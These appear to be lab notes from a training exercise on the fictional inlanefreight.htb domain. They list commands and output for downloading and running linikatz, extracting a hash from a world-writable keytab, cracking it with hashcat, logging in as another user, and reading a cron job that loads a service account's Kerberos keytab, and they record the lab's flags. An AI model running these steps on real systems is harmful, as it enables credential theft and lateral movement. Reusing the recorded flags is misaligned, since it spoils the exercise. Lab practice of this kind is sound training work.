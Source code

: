 ### Linikatz

Linikatz Download and Execution :

wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
/opt/linikatz.sh


## LAB

ssh david@inlanefreight.htb@$TARGET -p 2222

cat flag.txt
Gett1ng_Acc3$$_to_LINUX01

realm list
permitted-groups: Linux Admins

find / -name *keytab* -ls 2>/dev/null
262184      4 -rw-rw-rw-   1 root     root          216 Nov  5 19:55 /opt/specialfiles/carlos.keytab

python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
a738f92b3c08b424ec2d99589a9cce60

sudo hashcat -m 1000 a738f92b3c08b424ec2d99589a9cce60 /usr/share/wordlists/rockyou.txt
a738f92b3c08b424ec2d99589a9cce60:Password5

ssh carlos@inlanefreight.htb@$TARGET -p 2222
Password5

cat flag.txt
C@rl0s_1$_H3r3

crontab -l 
*/5 * * * * /home/carlos@inlanefreight.htb/.scripts/kerberos_script_test.sh

cat /home/carlos@inlanefreight.htb/.scripts/kerberos_script_test.sh
#!/bin/bash

kinit svc_workstations@INLANEFREIGHT.HTB -k -t /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt
smbclient //dc01.inlanefreight.htb/svc_workstations -c 'ls'  -k -no-pass > /home/carlos@inlanefreight.htb/script-test-results.txt

carlos@inlanefreight.htb@linux01:~$ klist
Ticket cache: FILE:/tmp/krb5cc_647402606_4IftT0
Default principal: svc_workstations@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
11/05/23 20:10:52  11/06/23 06:10:52  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
	renew until 11/06/23 20:10:52

timedatectl
Local time: Sun 2023-11-05 20:15:33 UTC

env | grep -i krb5
KRB5CCNAME=FILE:/tmp/krb5cc_647402606_91JyEJ
